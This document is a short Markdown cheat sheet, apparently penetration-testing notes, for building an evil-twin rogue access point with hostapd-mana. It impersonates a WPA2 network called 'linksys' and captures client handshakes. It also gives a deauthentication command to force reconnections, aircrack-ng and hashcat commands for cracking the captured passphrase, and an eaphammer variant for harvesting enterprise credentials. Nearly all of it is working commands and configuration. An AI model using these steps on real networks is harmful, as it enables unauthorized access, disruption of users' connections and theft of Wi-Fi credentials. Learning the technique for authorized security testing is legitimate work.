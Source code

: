 ## Rogue Access Point

```text
sudo apt install hostapd-mana
sudo apt-get install libssl-dev
```

### Note - A network card with interface modes "AP mode" is requred or the config will fail
```text
iw list | grep "Supported interface modes" -A 8

        Supported interface modes:
                 * IBSS
                 * managed
                 * AP
                 * AP/VLAN
                 * monitor
                 * mesh point
```

```text
sudo airodump-ng wlan0mon -w file --output-format pcap

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID 
11:22:33:44:55:66  -68       12        1    0   1  130   WPA2 CCMP   PSK  linksys
```

At this point we know the following about our target AP:


It has an ESSID of linksys

It has a BSSID of 11:22:33:44:55:66

It uses WPA2 (TKIP/CCMP) (and probably WPA (TKIP/CCMP))

It uses a auth of PSK

It runs on channel 1


#### To review just the information about the target ssid
may be handy to review the beacon tag in wireshark to see what is supported
```text
tshark -r file-01.cap -R "(wlan.fc.type_subtype == 0x08 || wlan.fc.type_subtype == 0x05 || eapol) && wlan.addr == 11:22:33:44:55:66" -2 -w out.cap -F pcap
```




#### Create Configuration file
```text
cat linksys-mana.conf

interface=wlan0
ssid=linksys
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/<name>/linksys.hccapx
```
We need to specify the band to 2.4 GHz by setting the hw_mode parameter to the letter "g". If the network was running on 5 GHz, we would set hw_mode to "a".

We will set the wpa parameter to the integer "3" to enable both WPA and WPA2 (setting this parameter to "1" enables only WPA and setting the value to "2" enables only WPA2).


#### Start Access Point
```text

sudo systemctl disable dnsmasq && sudo systemctl disable hostapd
sudo rfkill unblock wifi
sudo rfkill unblock all
sudo airmon-ng check kill
sudo ip link set dev wlan0 up
sudo ifconfig wlan0 up
sudo hostapd-mana linksys-mana.conf
```

Wait for a capture of a WPA/2 handshake in output.

##### De-Auth if needed
```text
sudo aireplay-ng -0 0 -a 11:22:33:44:55:66 wlan0mon
```

#### Crack!
```text
aircrack-ng linksys.hccapx -e linksys -w /usr/share/john/password.lst

or ...

hcxhash2cap --hccapx=linksys.hccapx -c out.cap
hcxpcapngtool -o hash.hc22000 -E wordlist out.cap
hashcat -m 22000 hash.hc22000 /usr/share/john/password.lst
```

#### eaphammer - alternative
```text
sudo eaphammer --cert-wizard
sudo eaphammer -i wlan0mon --channel 4 --auth wpa-eap --essid linksys --creds
```


https://wiki.gentoo.org/wiki/Hostapd

https://tbhaxor.com/evil-twin-wifi-network-using-hostapd-mana/




